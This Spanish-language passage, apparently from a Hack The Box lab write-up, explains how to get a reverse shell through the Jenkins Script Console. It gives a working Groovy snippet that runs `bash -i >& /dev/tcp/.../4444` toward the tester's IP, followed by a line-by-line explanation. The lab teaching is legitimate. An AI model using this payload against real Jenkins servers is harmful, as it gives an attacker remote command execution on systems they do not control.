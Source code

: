 **En la consola de Jenkins**, pega este código Groovy:

```bash
def cmd = "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
def proc = ['bash','-c',cmd].execute()
proc.waitFor()
```

📌 Reemplaza `TU_IP` por tu dirección IP tun0 (la de HTB VPN).

## 📦 ¿De dónde sale?

Es una técnica ampliamente usada en pentesting, presente por ejemplo en:

- Cheatsheets como la de [PayloadsAllTheThings (GitHub)](https://github.com/swisskyrepo/PayloadsAllTheThings)
    
- Herramientas de explotación como metasploit o scripts de automatización
    
- Cursos de hacking ético, HTB Academy o TryHackMe cuando se abusa de Jenkins Script Console


🧠 ¿Qué hace cada línea?

```bash
def cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'"
```

- Prepara un comando que abre una reverse shell usando `/dev/tcp/...`.
    
- `'bash -i'`: lanza una shell interactiva.
    
- `>& /dev/tcp/10.10.14.159/4444`: redirige la entrada/salida al puerto 4444 de tu máquina.
    
- `0>&1`: redirige la entrada estándar a la salida estándar (necesario para que funcione bien la shell).

```bash
def proc = ['bash','-c',cmd].execute()
```

Ejecuta ese comando en el sistema operativo usando Groovy.

```bash
proc.waitFor()
```

- Espera a que se complete el proceso (esto mantiene la sesión viva mientras dure la shell).
    

---

## 🛡️ ¿Por qué funciona?

Jenkins Script Console tiene permisos **de sistema** cuando se ejecuta como root o administrador. Si no se ha restringido el entorno, puedes ejecutar comandos arbitrarios como si estuvieras en el terminal del servidor.

